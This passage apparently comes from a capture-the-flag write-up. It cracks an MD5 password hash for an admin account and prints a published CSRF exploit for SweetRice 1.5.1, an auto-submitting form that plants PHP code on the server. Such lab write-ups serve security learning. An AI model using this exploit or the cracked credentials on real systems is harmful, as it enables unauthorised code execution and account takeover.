 `manager:42f749ade7f9e195bf475f37a44cafcb`

This password seems like a hash as it is made of 32 characters and each character is a hex; we need to crack it.

> Using [crackstation.net](https://crackstation.net/), we cracked the hash and the password is: `Password123`. It was `md5` hash.

Now we have the admin credentials but no where to login to.

Trying the different exploits found using `searchsploit`, the only one i could get to work was `40700.html` that allows for PHP code execution.

```shell
└─$ searchsploit -p 40700                                             
  Exploit: SweetRice 1.5.1 - Cross-Site Request Forgery / PHP Code Execution
      URL: https://www.exploit-db.com/exploits/40700
     Path: /usr/share/exploitdb/exploits/php/webapps/40700.html
    Codes: N/A
 Verified: True
File Type: HTML document, ASCII text

```

Opening that file: 

```HTMl
# Description :

# In SweetRice CMS Panel In Adding Ads Section SweetRice Allow To Admin Add
PHP Codes In Ads File
# A CSRF Vulnerabilty In Adding Ads Section Allow To Attacker To Execute
PHP Codes On Server .
# In This Exploit I Just Added a echo '<h1> Hacked </h1>'; phpinfo();
Code You Can
Customize Exploit For Your Self .

# Exploit :
-->

<html>
<body onload="document.exploit.submit();">
<form action="http://localhost/sweetrice/as/?type=ad&mode=save" method="POST" name="exploit">
<input type="hidden" name="adk" value="hacked"/>
<textarea type="hidden" name="adv">
<?php
echo '<h1> Hacked </h1>';
phpinfo();?>
&lt;/textarea&gt;
</form>
</body>
</html>

<!--
# After HTML File Executed You Can Access Page In
http://localhost/sweetrice/inc/ads/hacked.php

```
